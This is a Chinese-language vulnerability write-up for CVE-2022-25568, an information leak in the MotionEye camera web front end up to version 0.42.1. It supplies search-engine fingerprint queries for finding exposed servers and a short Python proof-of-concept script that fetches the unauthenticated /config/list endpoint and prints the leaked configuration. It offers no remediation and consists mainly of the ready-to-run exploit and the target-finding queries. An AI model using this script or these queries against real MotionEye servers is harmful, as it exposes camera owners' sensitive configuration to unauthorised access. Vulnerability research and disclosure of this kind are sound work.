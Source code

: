 # 

# MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用Python写的motion的Web前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的URL即可获取服务器敏感信息

## 漏洞影响

```
MotionEye <= v0.42.1
```

## 网络测绘

```
banner="motionEye"

app="motionEye"
app="motionEye-摄像头服务器"
app="motionEye/0.39.3"
app="motionEye/0.40"
app="motionEye01"
app="motionEye/0.33"
app="motionEye/0.35"
```

## 漏洞复现

通过查看响应Server判断是否使用，访问路由`/config/list`

## 漏洞POC

```python
import sys
import json
import requests
def exp(url):
    if url[-1] == "/":
        url = url + "config/list"
    else:
        url = url + "/config/list"
    rus = requests.get(url, verify=False)
    print("信息泄露内容:")
    print(json.dumps(json.loads(rus.text), sort_keys=True, indent=4))
if __name__ == '__main__':
    ip = sys.argv[1]
    print("访问IP:{0}".format(ip))
    exp(ip)
```


